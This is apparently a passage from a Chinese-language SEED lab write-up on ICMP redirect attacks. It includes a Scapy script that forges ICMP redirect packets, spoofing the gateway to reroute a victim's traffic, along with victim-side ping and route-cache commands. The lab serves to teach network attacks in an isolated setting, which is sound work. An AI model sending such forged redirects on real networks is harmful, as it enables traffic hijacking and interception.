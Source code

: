 在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时 victim 的路由改变：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![Launching ICMP Redirect Attack 路由改变](/assets/post/images/icmp3.webp)

> Question 1: Can you use ICMP redirect attacks to redirect to a remote machine? Namely, the IP address assigned to icmp.gw is a computer not on the local LAN. Please show your experiment result, and explain your observation.

修改程序：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '192.168.60.6'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

然后保持victim ping `192.168.60.5`：

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

清空 cache：

```shell
victim-10.9.0.5$ ip route flush cache
```
